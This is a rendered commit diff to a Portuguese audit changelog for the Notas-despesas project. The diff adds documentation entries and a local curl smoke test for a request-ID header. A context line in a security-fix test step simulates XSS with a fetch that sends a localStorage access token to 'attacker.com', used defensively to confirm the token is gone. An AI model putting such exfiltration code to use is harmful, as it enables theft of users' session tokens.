

Before and after one commit to guiolindo/Notas-despesas, a Markdown page: docs/CHANGELOG-audit-2026-06.md, 2 parts joined by grey strips. Shown at 98% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(changelog): add 62b1ff1 + 30eff07 entries + smoke test note
Adiciona ao CHANGELOG:
- 62b1ff1 (status table no topo da AUDITORIA).
- 30eff07 (organizacao dos docs por Codex, README.md + implementation-plans/).
- Secao "Smoke test runtime" — comando curl que valida P1-7 (request_id
  middleware ecoa o header X-Request-ID). Validado localmente.

Co-Authored-By: ChatGPT OpenAI Codex <noreply@openai.com>

````diff
--- a/docs/CHANGELOG-audit-2026-06.md
+++ b/docs/CHANGELOG-audit-2026-06.md
@@ -197,6 +197,28 @@ Range coberto: `26d5574..HEAD` (todos os commits desta fase de auditoria).
 
 ---
 
+## 62b1ff1 — docs(auditoria): implementation status table
+
+**Achados**: documentação. Adiciona ao topo de `AUDITORIA_COMPLETA_ECONOMART.md` uma tabela com cada achado P0/P1/P2 marcado como implementado/pendente, com hash do commit responsável e quem fez (Claude/Codex).
+
+**Arquivos**: `AUDITORIA_COMPLETA_ECONOMART.md`.
+
+**Risco**: zero.
+
+---
+
+## 30eff07 — docs: organize technical documentation (Codex)
+
+**Achados**: faxina dos docs (responde sugestão do usuário).
+
+**Arquivos**:
+- `docs/README.md` — novo. Índice e legenda do que cada doc é.
+- `docs/implementation-plans/plan-appjs-split.md`, `plan-css-split.md` — movidos da raiz de `docs/` para `docs/implementation-plans/`.
+
+**Risco**: zero. Pura reorganização. Links no CHANGELOG continuam válidos (não havia link cruzado).
+
+---
+
 ## 759e64f — fix(security): P1-1 — access token in memory
 
 **Achados**: P1-1 (token sai de localStorage).
@@ -215,6 +237,21 @@ Range coberto: `26d5574..HEAD` (todos os commits desta fase de auditoria).
 4. Abrir nova aba `/verify/{id}` → `window.Auth.hasSessionHint()` → `true` → `ensureToken` → reveal dos dados.
 5. Logout → `Auth.clear()` → sessionStorage limpa, token zerado.
 6. Simular XSS via console: `fetch('https://attacker.com', { body: localStorage.access_token })` → body fica `undefined` (não tem mais lá).
+
+---
+
+## Smoke test runtime (2026-06-03)
+
+Para confirmar que P1-7 (request_id) está ativo em runtime:
+
+```bash
+curl -i -H "X-Request-ID: smoketest1234" http://localhost:8000/health/live
+# Esperado: cabeçalho X-Request-ID: smoketest1234 ecoado na resposta
+```
+
+Validado localmente — o header foi ecoado, confirmando que o middleware
+está montado e processa o pipeline. Para validar P0/P1 ponta-a-ponta no
+ambiente real, seguir o checklist em `docs/qa-audit-p0-p1-checklist.md`.
 
 ---
 
````
